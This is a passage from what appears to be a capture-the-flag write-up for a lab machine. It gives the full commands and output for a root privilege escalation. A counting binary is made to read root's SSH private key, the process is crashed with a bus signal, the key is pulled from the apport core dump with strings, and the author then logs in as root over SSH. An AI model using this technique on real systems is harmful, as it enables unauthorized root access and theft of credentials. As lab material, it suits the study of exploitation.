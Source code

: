 ```bash
-rw-r--r--  1 dasith dasith      1 Jun 10 09:40 Signal
-rw-r--r--  1 dasith dasith     29 Jun 10 09:40 Uname
-rw-r--r--  1 dasith dasith      3 Jun 10 09:40 UserGroups
```
We can try to apply `strings` over `CoreDump` file:
```bash
dasith@secret:~$ strings /tmp/report/CoreDump
Enter source file/directory name: 
%99s
Save results a file? [y/N]: 
Path: 
Could not open %s for writing
:*3$\"
Save results a file? [y/N]: words      = 2
Total lines      = 2
/root/root.txt
f38635097fadff0646312d1935dca2a6
aliases
ethers
group
gshadow
```
Success! We can now try to obtain a shell as root leaking the `/root/.ssh/id_rsa` file:
```bash
dasith@secret:~$ /opt/count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 /opt/count
dasith@secret:~$ ps
    PID TTY          TIME CMD
   1209 pts/0    00:00:00 sh
   1210 pts/0    00:00:00 bash
   1480 pts/0    00:00:00 count
   1481 pts/0    00:00:00 ps
dasith@secret:~$ kill -BUS 1480
dasith@secret:~$ fg
/opt/count
Bus error (core dumped)
```
And now, we read the content of the key:
```bash
dasith@secret:~$ rm -rf /tmp/report/
dasith@secret:~$ apport-unpack /var/crash/_opt_count.1000.crash  /tmp/report
dasith@secret:~$ strings /tmp/report/CoreDump 
# ...
Total lines      = 39
/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
# SSH KEY CONTENT
-----END OPENSSH PRIVATE KEY-----
# ...
```
Now we can connect to the machine as root:
```bash
❯ echo "-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----" > Results/id_rsa
❯ chmod 600 Results/id_rsa
❯ ssh root@10.10.11.120 -i Results/id_rsa
Last login: Tue Oct 26 15:13:55 2021
root@secret:~# hostname -I
```